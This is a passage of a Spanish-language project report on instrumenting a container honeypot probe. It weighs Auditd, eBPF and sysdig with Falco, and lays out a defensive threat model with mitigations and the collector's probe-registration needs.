\label{subsec:auditd}

\emph{Audit} (véase \cite{redhat-auditd}) es un subsistema del \emph{kernel} y un conjunto de utilidades. 
Están disponibles desde el kernel 2.6 y proporcionan información acerca de qué \emph{syscalls}
se llaman desde los procesos del sistema. 
Es un componente maduro que se utiliza extensivamente (como prueba, mencionar que es parte de las recomendaciones del CIS y NIST para guías de bastionado)
y que, en base a un fichero de configuración, permite definir qué \emph{syscalls} se monitorizaran
\emph{Audit} generando un fichero de \emph{log} que puede guardarse en disco, enviar eventos a un recolector remoto o ser expuesto vía una conexión
\emph{netlink} (véase \cite{wiki-netlink})

La primera aproximación realizada para la instrumentación de la sonda, fue utilizando \emph{Auditd}. Es tan simple como lanzar un \emph{container} exponiendo un servicio
y guardar cualquier \emph{syscall} recibida. 

Este enfoque puede ser costoso tanto a nivel de rendimiento, ya que depende del número de eventos generados (el tráfico / las operaciones del \emph{container}) a la hora de la coleccionarlos, como también
a la hora de extraer la información relevante.

La idea inicial es configurar \emph{Audit} para volcar la información en un fichero y, tras una prueba inicial, se encuentraron los siguientes problemas a resolver:

\begin{enumerate}
    \item La necesidad de reducir el numero de \emph{syscalls} a instrumentar en \emph{Auditd}. Esto es debido a que si solo se instrumentan unas cuantas \emph{syscalls}, el volumen de eventos es mucho menor que si
    instrumentamos todas las \emph{syscalls} del servidor. Y si, además, solo capturamos \emph{syscalls} provenientes de un solo proceso, el volumen de información se reduce, lo que es 
    deseable para tener que procesar menos después y para el almacenaje de los eventos.
    \item La gestión del fichero de \emph{log}. El fichero crecerá y, por ello, hay que rotarlo para que no llene el almacenamiento del servidor. Si el volumen de eventos es alto y superior 
    al \emph{buffer} disponible, es posible o bien que haya una pérdida de eventos antes de escribir a fichero, o bien que llegue la recepción de eventos con demasiada posterioridad.
    \item La optimización del fichero de \emph{log} para extraer información una vez se haya parseado. Este paso implica leer el fichero de disco/parsearlo y guardar la información. El hecho de tener que escribir a disco puede inducir una latencia además de aumentar la carga de la sonda si parseamos el fichero alli.
    \item Para mitigar el punto anterior, una posibilidad es la configuración  \emph{Auditd} para enviar eventos a un \emph{Auditd} central y que este se encargue de volcar en ficheros los eventos de varias sondas. Sin embargo, esto sería aplazar el problema
    comentado anteriormente.
    \item Otra posibilidad para mejorar la latencia es utilizar una conexión \emph{netlink},
    \emph{Auditd} provee de interfaz \emph{netlink}; así, en lugar de leer eventos de un fichero, 
    se reciben los eventos a través de una conexión de red. 
    La conexión por red mejora la latencia de recepción de eventos, 
    pero necesita del desarrollo de un cliente \emph{netlink} capaz de procesar estos eventos, 
    y de la ejecución del proceso en un tiempo adecuado, ya que de otro modo, 
    si nuestro cliente no fuera capaz de procesar el volumen de eventos entregado,
    dichos eventos se perderían.
    \item La incapacidad de \emph{Auditd} para reconocer \emph{containers}. Por lo tanto, la capacidad de ver la actividad de procesos
    sin saber si estos se ejecutan dentro de un \emph{container} o no es una limitación muy importante, especialmente, si si persigue que nuestras sondas
    ejecuten más de un \emph{container} por sonda. Y, en cualquier caso, complica el procesamiento de eventos ya que no sería fácil, por ejemplo, diferenciar procesos
    del \emph{host} frente a los que se ejecutan dentro del \emph{container}.
\end{enumerate}

Tras realizar una implementación inicial como prueba, no queda más que descartar la opción del \emph{buffer} de eventos de  \emph{Auditd} por no estar preparado para grandes volúmenes.
Si una sonda \emph{Auditd} pierde conectividad con un \emph{Auditd} que actua como recolector central, los eventos de este se pierden.

Y para paliar esta deficiencia, se puede utilizar la interfaz \emph{netlink}. Existen varias librerías en diversos lenguajes para implementar un cliente de \emph{netlink} y de entre ellas
se han probado: (\cite{netlink-glnpy,netlink-audit-go,netlink-go-audit}).

La realidad es que el formato recibido a través de la conexión de \emph{netlink} es desigual (ya que no todos los eventos tienen el mismo formato), inestable (porque, en ocasiones, si se recarga la configuración de \emph{Auditd}, la conexión se rompe y es imposible volver a obtener eventos) y frágil al trabajar con ella (pese a que hay historias de éxito
como la de \emph{Slack} (\cite{netlink-slack-success}), también es cierto que dicho artículo se publica después de realizar esta prueba y que las condiciones no son idénticas, Slack no instrumenta \emph{containers}.

Llegados a este punto, se descarta la utilización de \emph{Auditd} y se justifica la búsqueda de alternativas.

\subsection{Obteniendo información del kernel: \emph{eBPF}}
\label{subsec:ebpf}

\emph{eBPF (extended BPF)} (véase \cite{ebpf-brendan-gregg,ebpf-series}) es una maquina virtual muy eficiente que se ejecuta dentro del kernel. Su función original era la de filtrado de paquetes de red, que ha sido
extendido para ser un motor de procesado de eventos en general.

BPF \emph{Berkeley packet filter} es una maquina virtual que ha sido utilizada para filtrado de paquetes de red en BSD y Linux desde hace 24 años, la orden
más conocida que utiliza ésta maquina virtual es \emph{tcpdump}, utilidad frecuentemente utilizada para diagnostico de problemas de red.

Aunque su origen sea el de filtrado de red, a partir del kernel 3.8 y en especial en los ultimos kernels \emph{4.x} se han ido ampliando las capacides de la maquina virtual BPF para poder
observar eventos de multiples sistemas.

la manera de crear nuevos programas \emph{eBPF} es creando programas con instrucciones \emph{eBPF}, dichos programas se pueden escribir utilizando
instrucciones o a traves de un compilador en \emph{C}. bcc (véase \cite{bcc-project}) es una herramienta que permite escribir programas \emph{Python} que contienen código C que generan 
instrucciones eBPF.

\begin{figure}[h]
  \centering
    
\includegraphics[scale=0.3]{images/linux_ebpf_internals}
  \caption{Detalle de como funciona un programa \emph{eBPF} y su relación con el kernel. \emph{Autor: Brendan Gregg}}
  \label{fig:ebpf-internals}
\end{figure}

el proyecto \emph{bcc} incluye pequeñas utilidades que sirven para monitorizar algunas partes del sistema, en la figura \ref{fig:bcc-tracing-tools} puede observarse un diagrama que incluye algunas de ellas
con referencia al sistema que monitorizan.

\begin{figure}[h]
  \centering
    
\includegraphics[scale=0.65]{images/bcc_tracing_tools}
  \caption{Relación de utilidades \emph{bcc} y subsistemas monitorizados. \emph{Autor: Brendan Gregg \& iovisor project}}
  \label{fig:bcc-tracing-tools}
\end{figure}

\begin{figure}[h]
  \centering
    
\includegraphics[scale=0.65]{images/linux_ebpf_support}
  \caption{Relación de versiones del kernel donde se dan soporte a susbsistemas en \emph{eBPF}. \emph{Autor: Brendan Gregg \& iovisor project}}
  \label{fig:linux_ebpf_support}
\end{figure}

\begin{table}[h]
\centering
\begin{tabular}[!h]{|l|}
\hline
Linux 4.12 Released 2 July, 2017 \\
\hline
Linux 4.11 Released 30 April, 2017 \\
\hline
Linux 4.10 Released 19 February, 2017 \\
\hline
Linux 4.9 Released 11 December, 2016 \\
\hline
Linux 4.8 Released 2 October, 2016 \\
\hline
Linux 4.7 Released 24 July, 2016 \\
\hline
Linux 4.6 Released 15 May, 2016 \\
\hline
Linux 4.5 Released 13 March, 2016 \\
\hline
Linux 4.4 Released 10 January, 2016 \\
\hline
Linux 4.3 Released 1 November, 2015 \\
\hline
Linux 4.2 Released 30 August, 2015 \\
\hline
Linux 4.1 Released 21 June, 2015 \\
\hline
Linux 4.0 Released 12 April, 2015 \\
\hline
\end{tabular}
\caption{\label{tab:linux-release-date}Fecha de publicación de versiones de Linux \emph{4.X}}
\end{table}

Sin embargo el soporte a subsistemas ha sido introducido de manera paulatina, desde la introducción de eBPF, como referencia véase el cuadro \ref{tab:linux-release-date} dónde se incluye la fecha de publicación de algunas versiones de la rama
\emph{4.x} y la figura \ref{fig:linux_ebpf_support} donde se aprecia en que versión del kernel se incluye.

\clearpage


Si se utiliza \emph{eBPF} hay importantes ventajas e incovenientes con respecto a \emph{auditd} y otras opciones:
\begin{enumerate}
    \item[Eficiencia] el procesado de eventos y filtrado se hace dentro del kernel, en un entorno aislado, lo que es mucho más
    rapido y menos costoso que copiar el evento a espacio de usuario y filtrarlo alli.
    \item[Prometedor] aunque \emph{eBPF} es de incorporación reciente utiliza tecnología existente en el kernel desde hace más de 20 años.
    \item[Falta de soporte] no hay que perder la vista de que queremos instrumentar una \emph{honeypot} y aunque es viable escribir aplicaciones \emph{eBPF} capaces de instrumentar, no hay demasiada documentación al respecto
    y quizá ese objetivo sea merecedor de un proyecto por sí sólo.
    \item[Soporte reciente] si queremos utilizar todas las capacidades de \emph{eBPF} necesitaremos al menos un kernel \emph{4.10} que no está disponible aún en todas las distribuciones, que suelen instalar
    versiones \emph{LTS} (4.4 actualmente) y que por lo tanto no estará disponible en la mayoría de proveedores de servidores como \emph{AWS, Digital Ocean \ldots}. Aunque no es imposible instalar nuevas versiones del kernel,
    supone un esfuerzo extra y un coste para el proyecto.
\end{enumerate}

Por éstas razones se descarta el uso de \emph{eBPF} que aunque prometedor aún no es suficientemente estable para acometer éste proyecto.
\clearpage

\subsection{Obteniendo información del kernel: crear un módulo}
\label{subsec:kernel-modulo}

Dado que por las razones expuestas extraer información vía interfaces externas no parecía factible, hay que explorar otras opciones.
el kernel de \emph{Linux} es modular, y por tanto se puede inyectar un módulo de codigo que extienda las capacidades del kernel, es la manera
en que habitualmente se cargan nuevos controladores, por ejemplo.

Ya que extraer información a través de interfaces conocidas no es factible, queda la opción de crearnos la nuestra propia. 
Desarrollar un módulo del kernel para generar eventos y procesarlos no es una tarea sencilla, el módulo debe ser eficiente para procesar el volumen
de eventos y correcto para no provocar un fallo en el kernel que deje inutilizado el sistema.

El esfuerzo y tiempo a dedicar necesario para crear un módulo de kernel con cierta calidad y caracteristicas necesitaria un tiempo de desarrollo grande, quizás de la talla
de éste mismo proyecto. Por ello, antes de comenzar esa tarea cabe buscar si hay opciones disponibles que nos eviten ese trabajo extra.

\emph{sysdig} (\cite{sysdig-project}) es un proyecto de \emph{Draios} que consta de una \emph{CLI (Command Line Interface)} que utiliza eventos de un modulo del kernel
licenciado con GPLv2, lo que supone un encaje perfecto para las necesidades del proyecto.

Ventajas e inconvenientes de éste enfoque:

\begin{enumerate}
    \item[Coste] Sysdig obtiene los eventos en espacio del kernel pero los copia a espacio de usuario para ser
    filtrados y procesados. Si el filtro que escogemos es suficientemente amplio se necesitará una importante cantidad de recursos de CPU y memoria para el filtrado y procesado de eventos.
    \item[Flexibilidad] \emph{sysdig} como cliente del modulo del kernel, proporciona una enorme flexibilidad a la hora de definir filtros y varios formatos de salida (JSON, formato variable \emph{a la printf},\ldots).
    \item[Almacenaje] \emph{sysdig} guarda a disco las trazas en fichero en un formato binario propio que es posible leer y filtrar con posterioridad. Proporciona además opciones para el rotado automático por tamaño y/o fecha,
    lo que permite el almacenaje y gestion de ficheros de trazas directamente desde sysdig y la capacidad de reprocesar eventos si los filtros originales son generalistas. 
\end{enumerate}

Las ventajas superan los incovenientes en éste caso, ya que aunque el consumo de CPU sea más elevado, poder gestionar las trazas directamente, reprocesar ficheros de captura y las opciones flexibles de filtrado y postprocesado hacen de ésta opción la opción finalmente escogida.

\subsection{Notificación de alertas en base a eventos capturados en las trazas}
\label{subsec:alertas-trazas}

Una vez que hemos establecido como obtener los eventos, necesitamos que en ciertas condiciones algun componente, ya
sea el método de instrumentación o un sistema externo nos notifique cuando se vulnera nuestra \emph{honeypot} o hay un
cambio relevante dentro de ella.

Necesitamos esa notificación para conocer cuando se produce un incidente y sobre todo para ser capaz de limpiar el entorno tras una
cierta ventana de tiempo de exposición, nuestro objetivo es el de aprender de nuestros atacantes no de convertirnos en una plataforma de soporte
para ellos.

Desgraciadamente, al comienzo de éste proyecto (Marzo de 2016) no existía ningún tipo de aplicación que realizase ésta tarea.
Por ello, extender \emph{sysdig} para realizar ésta tarea parece lo más apropiado, la manera de extension puede ser a través de un
script en Lua que sea ejecutado dentro de \emph{sysdig} o procesando la salida en una aplicación externa.

\emph{Lua} es un lenguaje pequeño, versatil y potente y posiblemente capaz de realizar ésta tarea, pero la poca familiaridad del autor con este lenguaje decanta
la balanza a favor de desarrollar una aplicación externa que recibiendo los eventos procesados por \emph{sysdig} genere las notificaciones.

Afortunada (o desgraciadamente por el tiempo \emph{invertido}) antes de que el desarrollo de dicha aplicación terminase, \emph{Draios} lanza \emph{Falco} (\cite{falco-project}) en Mayo de 2016, un proyecto cuyo objetivo
es el analizar el comportamiento anomalo de containers en base a filtros de \emph{sysdig} y generar notificaciones sobre ello.

El encaje con los propositos del proyecto es perfecto, y por ello se descarta el desarrollo propio tras una prueba inicial.

\subsection{Modelo de riesgo de la sonda y del servicio expuesto.}
\label{subsec:riesgos}

El objetivo de una  \emph{honeypot} es el de engañar a atacantes para que realicen un ataque como lo harian en un entorno real. Aunque este ataque se produce en un entorno en el que esperamos un ataque
tendremos que definir el riesgo que asumimos al exponerse y que medidas o politicas se aplicarán para éstos riesgos. En la figura \ref{fig:riesgo_sonda} se describen los posibles riesgos, realizando un diagrama de riesgos siguiendo la metodologia expuesta en \cite{Shostack:2014:TMD:2829295}.

\begin{figure}[!h]
  \centering
    
\includegraphics[scale=0.4]{images/threat_model_probe}
  \caption{Modelo de riesgo de la sonda}
  \label{fig:riesgo_sonda}
\end{figure}

Listado de riesgos analizados sobre la figura \ref{fig:riesgo_sonda}:
\begin{enumerate}
    \item[\emph{Naranja 1}] Elevación de privilegios atacando a un servicio expuesto que no pertenece a la \emph{honeypot}. Un atacante puede explotar un servicio de soporte como un servidor SSH de administración o un servicio interno expuesto por mala configuración.
    \item[\emph{Naranja 2}] Riesgo de que la \emph{honeypot} sea reconocible o listada, la \emph{honeypot} es conocida por alguna caracteristica (\emph{IP del servidor, versión del servicio,\ldots}) marcandola como \emph{honeypot} permitiendo a los atacantes simplemente ignorarla.
    \item[\emph{Azul}] El atacante escapa desde el \emph{container}, elevación de privilegios que rompe el aislamiento del kernel y el atacante gana acceso a otros containers o al servidor.
    \item[\emph{Verde}] \emph{Spoofing} de la información enviada al recolector, una vez el atacante gana acceso al servidor puede enviarnos al recolector información falseada.
    \item[\emph{Rojo}] Elevación de privilegios de un atacante que ya ha conseguido acceso al recolector. El recolector y la sonda mantendran una conexión, si alguien ataca al recolector y gana privilegios puede atacar a las sondas. Pese a que es un riesgo, si el recolector ha sido vulnerado, que nos ataquen las sondas no es tan grave.
\end{enumerate}

Listado de mitigaciones para los riesgos analizados:
\begin{enumerate}
    \item[\emph{Naranja 1}] Reducir la superficie de ataque, eliminar servicios expuestos que no pertenezcan a la \emph{honeypot} o limitar el acceso a ciertas direcciones ip conocidas.
    \item[\emph{Naranja 2}] Para mitigar este riesgo, las versiones de las aplicaciones expuestas deben estar ocultas o ser indistinguibles. la mejor alternativa para mitigar éste riesgo es reciclar las sondas, y crear sondas nuevas con suficiente frecuencia. Si el sistema de provisionamiento y configuración de sondas es automatico, se pueden crear nuevas sondas con frecuencia diaria u horaria.
    \item[\emph{Azul}] Debemos aceptar el riesgo, que el container siempre tendra acceso al kernel que se comparte con otros containers y el servidor, como mitigación podemos restringir los privilegios del container para que solo pueda utilizar algunas syscalls, pero en cualquier caso el riesgo de compromiso de un servidor a traves de un container siempre estara presente. 
    \item[\emph{Verde}] La comunicacion entre sonda y recolector se realizara a traves de un canal cifrado con clave asimetrica. En el lado del recolector se pueden realizar validaciones de entrada antes de guardar en base de datos o actuar sobre los eventos recibidos.
    \item[\emph{Rojo}] De todos los riesgos listados, este es el menos grave, si el recolector ha sido atacado y vulnerado tendremos problemas mayores que nuestra sonda sea atacada. La mitigación en este caso es si hemos sido vulnerados cerrar el entorno, apagar los servidores, guardar periodicamente la informacion obtenida en un almacenamiento diferente y externo, hacer una auditoria de seguridad y analisis de que provoco el ataque para repararlo y recrear el entorno desde cero para asegurarnos que el atacante no tiene acceso a el.
\end{enumerate}

Tendremos que tener en cuenta estos riesgos a la hora de modelar la arquitectura y diseñar las protecciones, en general los riesgos \emph{Naranja 1}, \emph{Naranja 2} y \emph{Azul} son mas prioritarios que los riesgos \emph{Verde} y \emph{Rojo}. Las posibles acciones a tomar estan listadas en las mitigaciones del mismo color y creemos que son suficientes para equilibrar los riesgos.

\section{Análisis de soluciones para el recolector}


\subsection{Registro de las sondas}

El recolector debe conocer el número de sondas desplegadas para poder extraer información de ellas o al menos validar
los eventos que estas envien.

En definitiva debemos preguntarnos como se realizará el registro de sondas y que casos de uso ha de proporcionar. En general, necesitaremos lo siguiente:

\begin{enumerate}
    \item Necesitamos \emph{metadata} de las sondas para la explotación de datos, al menos la ubicación donde la sonda esta desplegada, el proveedor, servicios expuestos en la \emph{honeypot} y versiones.
    \item Como se comentaba en el modelo de seguridad de las sondas, consideramos las sondas como entidades efimeras, que aparecen y desaparecen. 
    Necesitaremos un registro de sondas si queremos realizar analisis historicos, especialmente si queremos permitir el reprocesado de datos.
    \item Verificación de la sonda para mantener la integridad de la información, la sonda ha de identificarse frente al recolector para asegurarnos que la fuente de información es legitima.
    \item De cara a la recolección de datos, tendremos que pensar si optaremos por un modelo \emph{pull} frente a uno \emph{push}. En caso de escoger un modelo \emph{pull} el recolector debe conocer
    cuales son las sondas y su estado para obtener las trazas.
\end{enumerate}

\subsection{Recolección de notificaciones de la \emph{honeypot}}

